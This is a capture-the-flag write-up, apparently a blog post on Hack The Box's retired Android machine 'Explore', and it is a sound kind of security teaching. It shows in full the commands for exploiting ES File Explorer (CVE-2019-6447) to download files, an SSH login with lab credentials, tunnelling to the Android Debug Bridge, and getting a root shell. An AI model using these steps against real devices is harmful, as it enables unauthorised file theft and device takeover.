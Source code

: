 ```yaml
---
layout: post
title: "HTB: Explore"
author: Andrew Cherney
date: 2023-02-20 20:18:32
tags: htb easy-box android 
icon: "assets/icons/explore.png"
post_description: "Android can be a beast to pentest and enumerate, but this box does a decent job of giving leads. The credentials are found in what I can only assume is the user writing it down and taking  a picture not to forget. Then root can be gained through the locally open 5555 port for android debug bridge."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $nmap -sC 10.10.10.247
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 20:31 CST
Nmap scan report for 10.10.10.247
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
2222/tcp open     EtherNetIP-1
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp filtered freeciv
```

These ports certainly are odd and indicate it is an android device. How do I know? Well first this is an Android box, but second that port 5555 is the Android Debug Bridge used for basic app maintenance (installing/debuging) and can give a command prompt. The state is filtered however, so likely this is hosted as a service but filtered to local traffic, I'll try that as a last resort. 

<h2>Ports near the void</h2>

It does strike me as odd that there are only these two ports. I decide to scan all of the ports available to see if anything turns up.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $nmap -sC 10.10.10.247 -p1-65535
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 21:58 CST
Nmap scan report for 10.10.10.247
Host is up (0.057s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
33391/tcp open     unknown
42135/tcp open     unknown
59777/tcp open     unknown
```

A little better, but not by much. In order my search yields that 33391 is unassigned, 42135 is occasionally for game servers, and 59777 is almost certainly ES File Explorer. Right out of the gate on speedguide.net it states the service has been vulnerable to CVE-2019-6447, an arbitrary file read and application execution vulnerability. 

<h1>User as u0_a76</h1>

<h2>CVE-2019-6447</h2>

[This is a proof of concept for that CVE](https://www.exploit-db.com/exploits/50070) and looking through it if you just send a post with json it'll let you run local commands on the Android shell. That said likely I cannot get a reverse shell since Android restricts its command usage pretty well. Instead with this remote command usage I can enumerate the system and search for hidden password files or images.

The commands the exploit denotes are as follows:

```
    print("  listFiles         : List all Files.")
    print("  listPics          : List all Pictures.")
    print("  listVideos        : List all videos.")
    print("  listAudios        : List all audios.")
    print("  listApps          : List Applications installed.")
    print("  listAppsSystem    : List System apps.")
    print("  listAppsPhone     : List Communication related apps.")
    print("  listAppsSdcard    : List apps on the SDCard.")
    print("  listAppsAll       : List all Application.")
    print("  getFile           : Download a file.")
    print("  getDeviceInfo     : Get device info.")
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py getDeviceInfo 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```

In running the basic list commands in order I come across the file named **creds.jpg** which seems odd.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $python3 CVE-2019-6447.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $mv out.dat creds.jpg
```

![credentials](/img/explore/Explore_credentials.png)

<code>kristi</code> with password <code>Kr1sT!5h@Rp3xPl0r3!</code> should give us access. So with my machinations I still am not sure why in the initial cracking of this box I was thinking since port 8080 is http traffic that port 2222 would be ssh traffic. I tried it then and it worked.

In retrospect I see that in the initial nmap scan the port 2222 returns an ssh-hostkey, which is indicative of some sort of server with ssh connection capabilities.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ whoami
u0_a76
```

<h1>Root</h1>

<h2>SSH Tunneling</h2>

So that port on 5555 is Android Debug Bridge, and I have a hunch if I ssh tunnel to the machine I can run remote commands. 

```bash
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555
```

<h2>Android Debug Bridge</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb devices
List of devices attached
emulator-5554	device
```

Well that's promising. Now I can put adb in root mode and gain a root shell on the machine.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb root
* daemon not running; starting now at tcp:5037
* daemon started successfully
restarting adbd as root
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Explore]
└──╼ $adb -s emulator-5554 shell
x86_64:/ # whoami                                                                          
root
```

<h2>Finding the Flags</h2>

Since this is an android system and there are no home or root directories I need to find the flags. I suspect they might be in **/data** but I can toss out a search for both.

```bash
x86_64:/data # find / -name "root.txt" 2>/dev/null
/data/root.txt
1|x86_64:/data # find / -name "user.txt" 2>/dev/null                                       
/storage/emulated/0/user.txt
/mnt/runtime/write/emulated/0/user.txt
/mnt/runtime/read/emulated/0/user.txt
/mnt/runtime/default/emulated/0/user.txt
/data/media/0/user.txt
1|x86_64:/data # cat /data/root.txt
f04fc82b6d49b41c9---------------
x86_64:/data # cat /data/media/0/user.txt
f32017174c7c7e8f5---------------
```
